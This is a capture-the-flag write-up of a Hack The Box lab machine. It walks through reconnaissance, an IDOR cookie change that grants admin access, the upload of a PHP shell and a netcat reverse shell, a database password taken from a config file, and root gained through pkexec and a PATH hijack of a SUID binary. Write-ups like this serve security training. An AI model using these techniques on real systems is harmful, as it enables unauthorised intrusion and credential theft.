 ## Recon 

```
└─# nmap -sS -vvv -A --min-rate 5000 $ip
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61e43fd41ee2b2f10d3ced36283667c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDxxctowbmnTyFHK0XREQShvlp32DNZ7TS9fp1pTxwt4urebfFSitu4cF2dgTlCyVI6o+bxVLuWvhbKqUNpl/9BCv/1DFEDmbbygvwwcONVx5BtcpO/4ubylZXmzWkC6neyGaQjmzVJFMeRTTUsNkcMgpkTJXSpcuNZTknnQu/SSUC5ZUNPdzgNkHcobGhHNoaJC2StrcFwvcg2ftx6b+wEap6jWbLId8UfJk0OFCHZWZI/SubDzjx3030ZCacC1Sb61/p4Cz9MvLL5qPYcEm8A14uU9pTUfDvhin1KAEEDCSCS3bnvtlw1V7SyF/tqtzPNsmdqG2wKXUb6PLyllU/L
|   256 241da417d4e32a9c905c30588f60778d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLaHbfbieD7gNSibdzPXBW7/NO05J48DoR4Riz65jUkMsMhI+m3mHjowOPQISgaB8VmT/kUggapZt/iksoOn2Ig=
|   256 78030eb4a1afe5c2f98d29053e29c9f2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKLh0LONi0YmlZbqc960WnEcjI1XJTP8Li2KiUt5pmkk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome
OS fingerprint not ideal because: maxTimingRatio (1.754000e+00) is greater than 1.4
Aggressive OS guesses: Linux 5.0 (95%), Linux 5.0 - 5.4 (95%), Linux 5.4 (94%), HP P2000 G3 NAS device (93%), Linux 4.15 - 5.6 (93%), Linux 5.3 - 5.4 (93%), Linux 2.6.32 (92%), Linux 2.6.32 - 3.1 (92%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (92%), Linux 3.7 (92%)
```
In the page i found : `admin@megacorp.com` then i change the domain in the htb
## Fuzz but nothing
The i look at the source code, in the debugger and found `cdn-cgi/login/`
I logged in as guest, and i found an IDOR on cookie. i will fire UP my burp.
I can upload file in `http://oopsie.htb/cdn-cgi/login/admin.php?content=uploads`
But they said only admin, i will replace IDOR cookie.
`http://oopsie.htb/cdn-cgi/login/admin.php?content=accounts&id=2` i modify the id=2 to id=1.
I used the inspect element to inspect and change cookies without cookie editor.
I will try to upload shell.
```The file shell.php has been uploaded.```
Now i will use gobuster to bruteforce directory and find uploads.
```
└─# ffuf -u "http://oopsie.htb/FUZZ" -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://oopsie.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
.hta                    [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 444ms]
                        [Status: 200, Size: 10932, Words: 1345, Lines: 479, Duration: 445ms]
.htpasswd               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 4042ms]
.htaccess               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 4043ms]
css                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 343ms]
fonts                   [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 592ms]
images                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 375ms]
index.php               [Status: 200, Size: 10932, Words: 1345, Lines: 479, Duration: 355ms]
js                      [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 598ms]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 412ms]
themes                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 415ms]
uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 425ms]
:: Progress: [4614/4614] :: Job [1/1] :: 91 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
                                                                                             
```
So here i found uploads, i will try to find my shell and load it. 
when i visit here `http://oopsie.htb/uploads/` it's saying forbiden. i will try to load it directly
Now loaded
```
└─# nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.16.2] from (UNKNOWN) [10.129.95.191] 45522
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:54:39 up 43 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ www-data@oopsie:/home/robert$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
www-data@oopsie:/home/robert$ 

```
## Privilege Escalation
Now i am connected on `www-data`, i will move to `/var/www/html` and try to find some sensitive db user or pass
```
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
On db user i found these user and pass, i will now connect on ssh.
On SUID i found
```
   264421     40 -rwsr-xr-x   1 root     root               37136 Mar 22  2019 /usr/bin/newuidmap
   264437     60 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /usr/bin/passwd
   264164     52 -rwsr-sr-x   1 daemon   daemon             51464 Feb 20  2018 /usr/bin/at
   264151     12 -rwsr-xr--   1 root     bugtracker          8792 Jan 25  2020 /usr/bin/bugtracker
   264420     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /usr/bin/newgrp
   264457     24 -rwsr-xr-x   1 root     root               22520 Mar 27  2019 /usr/bin/pkexec
   264215     76 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /usr/bin/chfn
   264217     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /usr/bin/chsh
   264598     20 -rwsr-xr-x   1 root     root               18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   264419     40 -rwsr-xr-x   1 root     root               37136 Mar 22  2019 /usr/bin/newgidmap
   264310     76 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /usr/bin/gpasswd
   262535    148 -rwsr-xr-x   1 root     root              149080 Jan 19  2021 /usr/bin/sudo

```
first i will exploit pkexec
```
# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
# whoami
root
# cat /root/root.txt
af13b0bee69f8a877c3faf667f7beacf
```
Now i will look at other method.
I will exploit the `/usr/bin/bugtracker` SUID.
first i will create a file named `cat` and add `/bin/bash` on it
`chmod +x cat`
Then,
`export PATH=/tmp:$PATH`
Just run it
```
bugtracker
root@oopsie:/tmp# id;hostnamectl
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
   Static hostname: oopsie
         Icon name: computer-vm
           Chassis: vm
        Machine ID: 30ac2a931f55413aac392af212029ea4
           Boot ID: d3093b78b7d443338bf2c079f5dadc7e
    Virtualization: vmware
  Operating System: Ubuntu 18.04.3 LTS
            Kernel: Linux 4.15.0-76-generic
      Architecture: x86-64

```